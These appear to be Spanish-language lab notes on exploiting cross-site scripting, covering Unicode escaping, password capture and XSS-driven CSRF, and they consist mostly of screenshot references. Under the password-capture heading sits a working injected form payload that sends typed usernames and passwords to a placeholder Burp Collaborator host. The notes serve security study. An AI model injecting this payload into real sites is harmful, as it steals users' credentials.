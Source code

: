 ![[01.XSS_EscapeUnicode.png]]
![[02.XSS_EscapeUnicode.png]]
![[03.XSS_EscapeUnicode.png]]
![[04.XSS_EscapeUnicode.png]]

# Explotación de secuencias de comandos entre sitios para capturar contraseñas


```
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
![[01.XSS_CapturaContraseñas.png]]
![[02.XSS_CapturaContraseñas.png]]
![[03.XSS_CapturaContraseñas.png]]
![[04.XSS_CapturaContraseñas.png]]

# Explotación de XSS para ejecutar CSRF

![[01.XSS_CSRF.png]]
![[02.XSS_CSRF.png]]
![[03.XSS_CSRF.png]]
![[04.XSS_CSRF.png]]

